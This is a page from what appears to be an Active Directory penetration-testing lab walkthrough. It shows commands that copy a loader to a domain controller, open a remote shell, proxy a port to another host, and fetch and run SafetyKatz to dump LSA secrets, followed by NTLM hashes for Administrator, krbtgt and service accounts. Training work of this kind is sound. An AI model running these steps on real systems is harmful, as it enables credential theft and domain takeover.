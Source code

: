 <figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Run the below commands from the process running as DA to copy Loader.exe on dcorp-dc and use it to extract credentials:

```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
winrs -r:dcorp-dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.34
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"
```

```
RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : af0686cc0ca8f04df42210c9ac980760

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 4e9815869d2090ccfca61c1fe0d23986

RID  : 00000459 (1113)
User : sqladmin
LM   :
NTLM : 07e8be316e3da9a042a9cb681df19bf5

RID  : 0000045a (1114)
User : websvc
LM   :
NTLM : cc098f204c5887eaa8253e7c2749156f

RID  : 0000045b (1115)
User : srvadmin
LM   :
NTLM : a98e18228819e8eec3dfa33cb68b0728

RID  : 0000045d (1117)
User : appadmin
LM   :
NTLM : d549831a955fee51a43c83efb3928fa7

RID  : 0000045e (1118)
User : svcadmin
LM   :
NTLM : b38ff50264b74508085d82c69794a4d8

RID  : 0000045f (1119)
User : testda
LM   :
NTLM : a16452f790729fa34e8f3a08f234a82c

RID  : 00000460 (1120)
User : mgmtadmin
LM   :
NTLM : 95e2cd7ff77379e34c6e46265e75d754

```